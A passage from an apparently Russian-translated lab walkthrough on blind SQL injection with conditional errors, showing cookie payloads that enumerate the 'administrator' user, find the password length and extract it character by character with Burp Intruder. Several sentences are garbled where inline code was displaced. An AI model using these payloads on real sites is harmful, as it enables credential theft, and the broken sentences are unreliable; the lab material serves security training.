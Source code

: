 ```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users LIMIT 1)='a;```
    
7. Вы также можете использовать это поведение для тестирования условий. Сначала отправьте следующий запрос:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Убедитесь, что получено сообщение об ошибке.
    
8. Теперь измените его на:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Убедитесь, что ошибка исчезла. Это демонстрирует, что вы можете вызвать ошибку условно на основе истинности определенного условия. Оператор проверяет условие и вычисляет одно выражение, если условие истинно, и другое выражение, если условие ложно. Первое выражение содержит деление на ноль, что приводит к ошибке. В этом случае две полезные нагрузки проверяют условия и , и при условии . `CASE``1=1``1=2``true`
    
9. Это поведение можно использовать для проверки наличия определенных записей в таблице. Например, используйте следующий запрос, чтобы проверить, существует ли имя пользователя: `administrator`
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Убедитесь, что условие истинно (ошибка получена), подтвердив, что существует пользователь с именем . `administrator`
    
10. Следующим шагом является определение того, сколько символов в пароле пользователя. Для этого измените значение на: `administrator`
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Это условие должно выполняться, подтверждая, что длина пароля превышает 1 символ.
    
11. Отправка ряда последующих значений для проверки разной длины пароля. Отправить:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Затем отправите:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    И так далее. Вы можете сделать это вручную с помощью [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), так как длина, скорее всего, будет короткой. Когда условие перестает быть истинным (т.е. когда ошибка исчезает), вы определили длину пароля, которая на самом деле составляет 20 символов.
    
12. После определения длины пароля следующим шагом будет проверка символа в каждой позиции, чтобы определить его значение. Это предполагает гораздо большее количество запросов, поэтому нужно использовать [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Отправьте запрос, над которым вы работаете, в Burp Intruder, используя контекстное меню.
13. Перейдите в Burp Intruder и измените значение файла cookie на:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    При этом функция извлекает один символ из пароля и проверяет его на соответствие определенному значению. Наша атака будет циклически перебирать каждую позицию и возможное значение, проверяя каждую из них по очереди. `SUBSTR()`
    
```